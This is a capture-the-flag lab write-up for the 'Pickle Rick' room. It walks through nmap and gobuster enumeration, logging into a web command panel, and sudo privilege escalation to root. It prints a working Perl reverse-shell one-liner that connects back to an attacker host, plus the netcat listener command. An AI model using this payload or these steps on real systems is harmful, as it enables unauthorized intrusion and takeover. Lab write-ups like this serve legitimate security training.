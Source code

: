 # Pickle Rick Writeup by 1nsouciance
![Room Picture](./images/room.png)

> **It's my first write-up, but I will try to make it as much objective as i can! So let's begin!**

## ***Step 1: Enumeration***
### It is a considerably good practice to enumerate target as the first objective, so let's use nmap tool with this command:
```bash
sudo nmap -sS -Pn -p- 10.10.209.97
```
### **Nmap Results:**
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 21:35 BST
Nmap scan report for localhost (10.10.209.97)
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 50.97 seconds
```

### As we can see, http service (website/webpage) is up on this machine, but **let's enumerate directories and files with gobuster first**
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x ,php --url "http://10.10.209.97/"
```
### **Gobuster Results:**
```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.209.97/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              ,php
[+] Timeout:                 10s
===============================================================
2023/04/21 21:53:37 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 290]
/.                    (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 311] [--> http://10.10.209.97/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
```

### We found two interesting files such as `login.php` and `robots.txt` inside of the main root folder!

### What's inside of `robots.txt`:
![Screenshot](./images/screen4.png)

### Probably it's something useful, maybe the password from the login page, but we don't have the login and have to move on and finally check out our enumerated website!
![Screenshot](./images/screen1.png)

### Well, not so many to find out at the main page, but let's check page source, maybe there's something useful there!
![Screenshot](./images/screen2.png)

### ***What a luck! There's one note with username!***
![Screenshot](./images/screen3.png)

### Let's login on `login.php`:
![Screenshot](./images/screen5.png)

### **Command panel!** It's time for `ls -lh` to come out!
### **Output**:
```bash
total 32K
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4.0K Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1.1K Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1.1K Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1.5K Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2.0K Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

### ***There's our first ingredient... Time for `cat`!***
![Screenshot](./images/screen6.png)

### **Oh no...** But there are lots of commands to try! For example: `strings`, `ul`, `look`, `less` and many others...
### **Output:**
```
<edited first ingredient>
```

### It's time to move on... our goal now is to escape this command panel and recieve remote shell. `perl` will help us with this task! But let's set up a listener on our attacker machine first:
```bash
sudo nc -lvnp 4242
```
### And our payload for site's command panel:
```perl
perl -e 'use Socket;$i="<attacker-ip>";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### **Result:**
![Screenshot](./images/screen7.jpg)

### How to `find` second ingredient? Not so hard as it seems!
```bash
$ find / -name "*ingredient*" 2>/dev/null
/home/rick/second ingredients
```

### And `cat` this one!
```bash
$ cat "/home/rick/second ingredients"
<edited second ingredient>
```

### We forgot one important thing: to check who we are in this system, maybe we are ***root*** ?
```bash
$ whoami
www-data
```
### **No.** But maybe we have ***sudo permissions*** ?
```bash
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-209-97.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-209-97.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

### FULL RIGHTS! Let's escalate our privileges :)
```bash
$ sudo /bin/bash
$ whoami
root
```

### **Perfect.** Now let's try to find our third ingredient in the ***root*** folder:
```bash
$ cd /root/
$ ls -lh
total 8.0K
-rw-r--r-- 1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x 3 root root 4.0K Feb 10  2019 snap
$ cat 3rd.txt
<edited third ingredient>
```

## ***Done! Thx for watching and see you later!***
![Screenshot](./images/screen8.png)
